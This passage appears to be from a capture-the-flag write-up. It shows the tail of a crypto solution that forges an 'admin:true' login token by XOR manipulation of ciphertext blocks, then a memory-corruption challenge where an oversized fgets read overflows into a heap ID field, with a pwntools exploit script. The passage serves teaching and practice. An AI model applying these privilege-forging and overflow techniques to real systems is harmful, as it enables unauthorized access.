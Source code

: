 ```
    a,b = bytes.fromhex(a),bytes.fromhex(b)
    return bytes([x ^ y for x,y in zip(a,b)]).hex()


# Y encrypt
# user:AAAAAAA,adm | in:false,passwd: | AA:AA,admin:true
# Y[2] = en("AAAAA,admin:true"^X[1]^N)


mask = b'AA:AA,admin:true'
payload1 = b"AAAAAAA"
payload2 = b'AA:AA,admin:true'
ctxt,iv = register_user(payload1,xor(payload2,mask))
admin_login(ctxt[32*2:32*3],xor_hex(ctxt[32*1:32*2],mask.hex()))
```

# 0x6 PWN

## memowy cowwuption

the exploits is very straight forward, fgets() will cause an overflow. So we can just overwrite id.

```
void vuln() {
    char* name = malloc(64);
    int* id = malloc(sizeof(int));

    puts("Hello, what is your name?");

    fgets(name, 0x64, stdin);

    for (int i = 0; i < 64; i++) {
        if (name[i] == '\n') {
            name[i] = '\0';
        }
    }

    if (*id == ADMIN_ID) {
        win();
    } else {
        printf("Sorry %s, your ID (%x) does not match the admin ID (%x)\n", name, *id, ADMIN_ID);
    }
}
```

exp.py 
```
io = start()

payload = flat({
    # 0x38: 0,
    0x50: 0xdeadbeef,
},filler=b'A',length=0x64)

io.sendafter(b"Hello, what is your name?\n",payload)

io.interactive()
```
